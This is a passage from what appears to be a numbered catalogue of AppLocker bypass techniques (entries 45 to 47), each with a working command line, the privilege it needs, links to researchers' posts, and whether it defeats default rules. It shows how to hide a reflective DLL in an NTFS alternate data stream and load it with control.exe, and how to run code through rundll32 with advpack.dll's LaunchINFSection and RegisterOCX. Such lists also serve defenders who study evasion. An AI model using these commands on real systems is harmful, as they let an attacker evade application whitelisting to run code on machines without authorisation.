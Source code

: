 
* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: Yes

Notes:


* Links:
  * https://twitter.com/Oddvarmoe/status/951757732557852673

--------------------------------------------------------------------------
 45. Control.exe -Loading DLL/CPL binary from Alternate data stream


type notepad_reflective_x64.dll > c:\windows\tasks\zzz:notepad_reflective_x64.dll
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:
Requires write access to a place that is allowed by AppLocker

* Links:
  * https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
  * https://twitter.com/bohops/status/955659561008017409

--------------------------------------------------------------------------
 46. Advpack.dll - LaunchINFSection


rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: Yes

Notes:


* Links:
  * https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
  * https://twitter.com/bohops/status/967486047839014913
  * https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf

--------------------------------------------------------------------------
 47. Advpack.dll - RegisterOCX


rundll32.exe advpack.dll,RegisterOCX calc.exe


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: Yes
